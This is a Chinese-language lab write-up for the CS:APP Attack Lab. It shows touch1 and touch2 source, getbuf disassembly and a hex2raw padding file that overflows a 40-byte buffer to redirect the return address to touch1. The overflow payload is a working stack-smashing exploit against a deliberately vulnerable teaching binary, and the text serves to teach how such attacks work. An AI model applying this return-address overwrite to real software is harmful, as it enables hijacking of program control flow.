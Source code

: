 ### phase1

作为实验的热身阶段，我们需要输入攻击字符串以执行touch1：

```
1 void touch1()
2 { 
3 	vlevel = 1; /* Part of validation protocol */ 
4 	printf("Touch1!: You called touch1()\n");
5 	validate(1);
6 	exit(0);
7 }
```

touch1的结构比较简单，其没有参数输入，仅需利用缓冲区破坏使得`test`压入栈帧的地址被替换为`touch1`即可。在这里我们需要知道`getbuf`的缓冲区大小，由`objdump -d ctarget`可以得到：

```
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 ac 03 00 00       	callq  401b60 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

```

可以看出其缓冲区大小为`0x28`。当输入的字符串的大小超过40时，即可覆盖压入栈帧的返回地址，且覆盖后的返回地址即为字符串第41个元素为起始的与字符值对应的16进制数字序列。因此，我们可以构造如下的`ctarget1`文件以作为`hex2raw`的输入参数：

```
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00
00 00 00 00 /* 0x28 '/0' to fill the stack */
c0 17 40    /* the address of touch1 */
```

### phase2

在该部分，我们需要以特定的参数（cookie的16进制数值表示）执行`touch2`：

```
1 void touch2(unsigned val)
2 { 
3 	vlevel = 2; /* Part of validation protocol */ 
4 	if (val == cookie) {
5 		printf("Touch2!: You called touch2(0x%.8x)\n", val);
6 		validate(2);
7 	} else {
8 		printf("Misfire: You called touch2(0x%.8x)\n", val);
9 		fail(2);
10 	}
11 	exit(0);
12 }
```
